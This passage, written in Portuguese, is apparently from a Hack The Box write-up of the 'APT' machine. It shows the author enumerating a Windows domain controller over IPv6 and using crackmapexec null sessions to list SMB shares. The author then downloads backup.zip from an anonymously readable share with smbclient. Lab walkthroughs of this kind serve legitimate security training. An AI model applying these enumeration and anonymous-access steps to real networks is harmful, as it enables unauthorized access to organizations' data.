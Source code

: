 ```bash
#>  49693/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

Agora sim! Temos informações. Parece ser um AD/DC (Active Directory / Domain Controller). E ainda sabemos o domain (htb.local)

Com essas informações, e para termos menos problemas com as diversas ferramentas por causa do IPv6, vamos colocar essas informações no /etc/hosts.

```bash
echo -e "dead:beef::b885:d62a:d679:573f\tapt apt.htb.local htb.local" >> /etc/hosts
```

## SMB

Seguindo os passos habituais, que no meu caso é tentar obter credenciais via RPC com **"enumdomusers"**, para depois tentar um AS-REP Roasting Attack, ou até mesmo tentar esse mesmo ataque à bruta com **"kerbrute"**, não obtemos resultados conclusivos. O serviço rpc não está disponível para usuários não autenticados. E o kerbrute às escuras não encontra nada. Passamos para o serviço Samba.

```bash
crackmapexec smb apt
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)

crackmapexec smb apt --shares
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [-] Error enumerating shares: SMB SessionError: 0x5b

crackmapexec smb apt --shares -u '' -p ''
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True)
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [-] htb.local\: STATUS_ACCESS_DENIED
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              [+] Enumerated shares
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              Share           Permissions     Remark
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              -----           -----------     ------
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              backup          READ
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              IPC$                            Remote IPC
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              NETLOGON                        Logon server share
#>  SMB         dead:beef::b885:d62a:d679:573f 445    APT              SYSVOL                          Logon server share
```

Até que enfim vemos algo da máquina! Uma pasta partilhada de backup... Promissor...

```bash
smbclient \\\\apt\\backup -U '' -N
smb: \> dir

#>  ---skipped---
#>  backup.zip                          A 10650961  Thu Sep 24 08:30:32 2020

smb: \> get backup.zip


unzip backup.zip
```
